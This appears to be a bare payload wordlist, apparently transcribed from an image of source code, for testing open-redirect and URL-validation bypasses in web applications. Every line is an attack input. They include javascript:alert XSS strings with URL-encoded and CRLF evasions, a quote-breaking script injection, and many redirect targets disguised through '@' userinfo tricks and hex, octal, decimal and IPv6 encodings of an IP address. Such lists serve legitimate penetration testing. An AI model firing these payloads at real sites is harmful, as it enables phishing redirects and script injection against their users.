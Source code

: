 https://google.com
https://www.whitelisteddomain.tld@google.com
javascript:alert(1);
javascript:alert(1)
//javascript:alert(1);
/javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
java%0d%0ascript%0d%0a:alert(0)
//google.com
https:google.com
//google%E3%80%82com
\/\/google.com/
/\/google.com/
//google%00.com
https://www.whitelisteddomain.tld/https://www.google.com/
";alert(0);//
javascript://www.whitelisteddomain.tld?%a0alert%281%29
http://0xd8.0x3a.0xd6.0xce
http://www.whitelisteddomain.tld@0xd8.0x3a.0xd6.0xce
http://3H6k7lIAiqjfNeN@0xd8.0x3a.0xd6.0xce
http://XY>.7d8T\205pZM@0xd8.0x3a.0xd6.0xce
http://0xd83ad6ce
http://www.whitelisteddomain.tld@0xd83ad6ce
http://3H6k7lIAiqjfNeN@0xd83ad6ce
http://XY>.7d8T\205pZM@0xd83ad6ce
http://3627734734
http://www.whitelisteddomain.tld@3627734734
http://3H6k7lIAiqjfNeN@3627734734
http://XY>.7d8T\205pZM@3627734734
http://472.314.470.462
http://www.whitelisteddomain.tld@472.314.470.462
http://3H6k7lIAiqjfNeN@472.314.470.462
http://XY>.7d8T\205pZM@472.314.470.462
http://0330.072.0326.0316
http://www.whitelisteddomain.tld@0330.072.0326.0316
http://3H6k7lIAiqjfNeN@0330.072.0326.0316
http://XY>.7d8T\205pZM@0330.072.0326.0316
http://00330.00072.0000326.00000316
http://www.whitelisteddomain.tld@00330.00072.0000326.00000316
http://3H6k7lIAiqjfNeN@00330.00072.0000326.00000316
http://XY>.7d8T\205pZM@00330.00072.0000326.00000316
http://[::216.58.214.206]
http://www.whitelisteddomain.tld@[::216.58.214.206]
http://3H6k7lIAiqjfNeN@[::216.58.214.206]
http://XY>.7d8T\205pZM@[::216.58.214.206]
http://[::ffff:216.58.214.206]
http://www.whitelisteddomain.tld@[::ffff:216.58.214.206]
http://3H6k7lIAiqjfNeN@[::ffff:216.58.214.206]
http://XY>.7d8T\205pZM@[::ffff:216.58.214.206]
http://0xd8.072.54990
http://www.whitelisteddomain.tld@0xd8.072.54990
http://3H6k7lIAiqjfNeN@0xd8.072.54990
http://XY>.7d8T\205pZM@0xd8.072.54990
http://0xd8.3856078
http://www.whitelisteddomain.tld@0xd8.3856078
http://3H6k7lIAiqjfNeN@0xd8.3856078
http://XY>.7d8T\205pZM@0xd8.3856078